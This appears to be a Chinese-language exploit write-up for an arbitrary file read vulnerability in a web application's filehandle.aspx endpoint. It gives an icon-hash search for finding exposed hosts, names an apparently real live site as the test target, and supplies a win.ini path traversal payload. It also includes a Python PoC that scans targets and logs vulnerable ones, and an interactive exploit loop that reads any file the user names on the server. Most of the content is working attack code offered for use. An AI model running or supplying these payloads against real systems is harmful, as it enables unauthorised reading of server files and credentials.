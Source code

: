 ## 一、资产搜索

```
icon_hash="-642591392"
```

## 二、网站测试

```
http://tczb.hz-soft.cn
```

## 三、验证漏洞

```
/nssys/common/filehandle.aspx?filepath=C:/windows/win.ini
```

![image-20240914191525453](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240914191525453.png)

## 四、POC

```
def poc(target):
    payload = "/nssys/common/filehandle.aspx?filepath=C:/windows/win.ini"
    try:
        res1 = requests.get(url=target,verify=False,timeout=5)
        if res1.status_code == 200:
            res2 = requests.get(url=target+payload,verify=False,timeout=5)
            if "fonts" in res2.text:
                with open("result.txt","a",encoding="utf-8") as f:
                    f.write(f"该网站[+]{target}存在任意文件读取漏洞\n")
                    return True
            else:
                print(f"该网站[+]{target}不存在任意文件读取漏洞")
        else:
            print(f"该网站[+]{target}有问题，请手动测试！！")
    except Exception as e:
        print(e)
```

## 五、EXP

```
def exp(target):
    while True:
        content = input("请输入要查看的路径，从C:目录开始输入(q退出)\n>>>>>>>>>>>>>>>>>>")
        payload = "/nssys/common/filehandle.aspx?filepath="
        res1 = requests.get(url=target, verify=False,timeout=5)
        if content == "q":
            exit()
        if res1.status_code == 200:
            res2 = requests.get(url=target + payload +content, verify=False, timeout=5)
            print(res2.text)
        else:
            print("该文件不存在，请重新输入！！")
```

## 六、测试结果

![image-20240914191753106](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240914191753106.png)

![image-20240914191824625](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240914191824625.png)
